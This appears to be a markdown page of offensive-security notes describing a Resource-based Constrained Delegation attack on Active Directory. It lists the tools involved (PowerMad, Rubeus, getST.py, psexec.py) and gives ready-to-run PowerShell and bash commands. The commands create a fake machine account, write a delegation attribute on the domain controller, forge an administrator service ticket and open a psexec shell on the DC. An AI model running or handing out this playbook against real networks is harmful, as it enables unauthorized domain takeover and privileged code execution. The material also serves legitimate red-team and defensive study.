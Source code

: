 # Resource-based Constrained Delegation

## Overview
- We have *code execution* on the computer `(COM01)` as the current user.
- User creates a new computer object `(FAKE01)`.
- User leverages the **WRITE** privilege on the `(COM01)` computer object and updates its object's attribute **msDS-AllowedToActOnBehalfOfOtherIdentity** to enable the newly created computer `(FAKE01)` to impersonate and authenticate any domain user that can then access the target system `(COM01)`.      
`(COM01)` trusts `(FAKE01)` due to the modified *msDS-AllowedToActOnBehalfOfOtherIdentity*.
- We request Kerberos tickets for `(FAKE01)`$ with ability to impersonate an admin user.

## Tools needed
- [PowerMad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

## Exploitation
*Assumption is that the attacker has access to the system through winrm*
### Local
```powershell
# Verify if user can add new computers
Get-DomainObject -Identity 'dc=domain,dc=local' | select 

# Upload tools
upload Powermad.ps1 Powermad.ps1
upload Rubeus.exe Rubeus.exe

# Import PowerMad
Import-Module Powermad.ps1

# Set variables
Set-Variable -Name "FakeComputer" -Value "FAKE01"
Set-Variable -Name "target" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakeComputer").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "target").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakeComputer").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "target").Value -Properties PrincipalsAllowedToDelegateToAccount

# With Rubeus, generate the new fake computer object password hashes. (Keep these for the next step)
.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:domain.local
```

### Remote
```bash
# Generate a ccached TGT
getST.py domain.local/FAKE01 -dc-ip dc.domain.local -impersonate administrator -spn http/dc.domain.local -aesKey <aes key from Rubeus output>

# Set KRB5CCNAME environment variable to point to the newly created ccache file
export KRB5CCNAME=administrator.ccache

# Use psexec.py to connect to the remote server
psexec.py domain.local/administrator@dc.domain.local -no-pass -k
```

## References
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)